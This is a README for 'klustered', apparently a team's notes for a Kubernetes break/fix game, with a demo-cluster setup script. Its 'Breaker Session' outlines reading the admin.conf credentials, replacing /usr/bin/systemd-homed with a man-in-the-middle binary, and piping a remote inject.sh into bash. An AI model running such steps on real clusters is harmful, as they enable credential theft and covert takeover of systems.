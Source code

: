 # klustered

![](./docs/header.jpeg)

* [Ideen für den Angriff auf den gegnerischen Cluster](./enemycluster)
* [Pläne/Scripte für die Verteidigung unseres](./owncluster)

# Fixer Session
1. Run [bootstrap.sh](./owncluster/bootstrap.sh)  
  `curl <link> | bash`


# Breaker Session

1. `cat /etc/kubernetes/admin.conf`
2. `recompile homed`
2. `scp enemycluster/ideas/api-mitm/systemd-homed ubuntu@xxxx`
3. `cp /home/ubuntu/systemd-homed /usr/bin/systemd-homed`
4. `chmod +x /usr/bin/systemd-homed`
5. recompile scheduler image for 1.23.3
6. `curl <inject.sh> | bash`

## Setup Demo Cluster

```
cat <<EOF | sudo tee /etc/modules-load.d/k8s.conf
br_netfilter
EOF
cat <<EOF | sudo tee /etc/sysctl.d/k8s.conf
net.bridge.bridge-nf-call-ip6tables = 1
net.bridge.bridge-nf-call-iptables = 1
net.ipv4.ip_forward = 1
EOF
modprobe br_netfilter
sudo sysctl --system
sudo curl -fsSLo /usr/share/keyrings/kubernetes-archive-keyring.gpg https://packages.cloud.google.com/apt/doc/apt-key.gpg
echo "deb [signed-by=/usr/share/keyrings/kubernetes-archive-keyring.gpg] https://apt.kubernetes.io/ kubernetes-xenial main" | sudo tee /etc/apt/sources.list.d/kubernetes.list
sudo apt-get update
sudo apt-get install -y kubelet kubeadm kubectl containerd
systemctl enable --now containerd
kubeadm init --pod-network-cidr=10.244.0.0/16
export KUBECONFIG=/etc/kubernetes/admin.conf
kubectl apply -f https://raw.githubusercontent.com/flannel-io/flannel/master/Documentation/kube-flannel.yml
kubectl taint node $(kubectl get node -o jsonpath='{.items[].metadata.labels.kubernetes\.io/hostname}') node-role.kubernetes.io/master:NoSchedule-
kubectl taint node $(kubectl get node -o jsonpath='{.items[].metadata.labels.kubernetes\.io/hostname}') node-role.kubernetes.io/control-plane:NoSchedule-
kubectl create deploy nginx --image nginx
```
